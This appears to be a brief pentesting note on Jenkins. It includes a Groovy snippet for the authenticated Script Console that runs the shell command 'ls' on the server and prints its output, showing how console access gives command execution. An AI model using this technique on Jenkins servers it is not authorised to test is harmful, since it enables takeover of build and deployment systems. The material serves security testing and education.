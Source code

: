 What is Jenkins ?

Jenkins is a tool that offers a straightforward method for establishing a continuous integration or continuous delivery (CI/CD) environment for almost any combination of programming languages and source code repositories using pipelines. Furthermore, it automates various routine development tasks. While Jenkins doesn't eliminate the need to create scripts for individual steps, it does provide a faster and more robust way to integrate the entire sequence of build, test, and deployment tools than one can easily construct manually. [(source)](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

Groomy script exploitation: (need to be authenticated)
- Go to Manage Jenkins -> Script Console

```
def proc = "ls".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

## Resources

[Github Repo on Jenkins exploits](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)